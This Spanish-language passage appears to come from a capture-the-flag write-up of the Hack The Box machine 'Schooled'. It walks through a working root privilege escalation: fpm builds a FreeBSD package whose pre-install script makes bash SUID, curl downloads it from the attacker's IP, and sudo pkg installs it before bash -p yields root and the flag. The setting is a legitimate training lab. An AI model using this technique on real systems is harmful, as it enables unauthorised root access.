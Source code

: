 - <https://gtfobins.github.io/gtfobins/pkg/#sudo>.

- Necesitas instalar esto <https://github.com/jordansissel/fpm>.

- Todo esto lo vamos a hacer en nuestra maquina de atacante.

```bash
❯ TF=$(mktemp -d)
echo 'chmod u+s /bin/bash' > $TF/x.sh
                                                       
❯  fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
Created package {:path=>"x-1.0.txz"}
```

- Ahora lo pasamos ala máquina victima.

```bash
jamie@Schooled:/tmp $ curl http://10.10.14.13/x-1.0.txz --output x-1.0.txz
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- 100   512  100   512    0     0   1391      0 --:--:-- --:--:-- --:--:--  1395
jamie@Schooled:/tmp $ ls
mysql.sock		mysqlx.sock.lock
mysql.sock.lock		x-1.0.txz
mysqlx.sock
jamie@Schooled:/tmp $ 
```

- Lo ejecutamos rapido.

```bash
jamie@Schooled:/tmp/repo $ sudo pkg install -y --no-repo-update ./x-1.0.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
	x: 1.0

Number of packages to be installed: 1
[1/1] Installing x-1.0...
Extracting x-1.0: 100%
jamie@Schooled:/tmp/repo $ 
```

- Ahora es SUID.

```bash
jamie@Schooled:/tmp/repo $ ls -l /usr/local/bin/bash
-rwsr-xr-x  1 root  wheel  941288 Feb 20  2021 /usr/local/bin/bash
jamie@Schooled:/tmp/repo $ 
```

## Shell as root and root flag

```bash
jamie@Schooled:/tmp/repo $ bash -p
[jamie@Schooled /tmp/repo]# whoami
root
[jamie@Schooled /tmp/repo]# cd /root
[jamie@Schooled /root]# cat root.txt 
b7e535ff5ba87d26e35cccd47f06625a
[jamie@Schooled /root]# 
```

